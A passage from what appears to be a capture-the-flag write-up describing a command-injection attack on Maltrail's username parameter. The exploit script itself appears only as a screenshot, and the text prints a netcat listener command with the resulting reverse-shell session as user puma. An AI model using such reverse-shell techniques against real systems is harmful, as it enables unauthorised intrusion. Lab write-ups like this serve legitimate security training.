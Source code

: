 > I'll write a simple **python script** that will send an encoded command with a **reverse shell** to the vulnerable `username` parameter:

<p align="center">
  <img src="./screenshots/maltrail_python_exploit.png" alt="maltrail_python_exploit"/>
</p>

> run the exploit and get a reverse shell:

```bash

nc -lvnp 4444

listening on [any] 4444 ...
connect to [10.10.14.15] from (UNKNOWN) [10.10.11.224] 35982
bash: cannot set terminal process group (881): Inappropriate ioctl for device
bash: no job control in this shell

puma@sau:/opt/maltrail$ id
id
uid=1001(puma) gid=1001(puma) groups=1001(puma)
puma@sau:/opt/maltrail$

```
> I get first flag:
